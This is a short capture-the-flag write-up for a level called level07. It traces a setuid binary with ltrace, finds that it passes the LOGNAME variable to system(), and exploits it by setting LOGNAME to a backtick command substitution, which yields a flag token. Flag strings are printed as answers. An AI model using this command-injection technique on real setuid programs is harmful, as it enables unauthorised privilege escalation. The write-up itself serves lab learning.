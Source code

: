 ## FLAG: `wiok45aaoguiboiki2tuin6ub`

## We have an executable
> ls -l
```
    total 12
    -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Okay ...
> ./level07
```
    level07
```

## What's Happening in there ?
> ltrace ./level07
```
    __libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
    getegid()                                                                                   = 2007
    geteuid()                                                                                   = 2007
    setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                         = 0
    setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                         = 0
    getenv("LOGNAME")                                                                           = "level07"
    asprintf(0xbffff744, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)                         = 18
    system("/bin/echo level07 "level07
    <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                      = 0
    +++ exited (status 0) +++
```
## It check `uid` and `gid`
## Get the env varaible `LOGNAME`
## And echo this variable ?

## The variable IS equal to `level07`
> env
```
    ...
    LOGNAME=level07
    ...
```

------------------------------------------------

## We just change this variable to `getflag` to explot the echo
> export LOGNAME='`getflag`' && ./level07
```
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```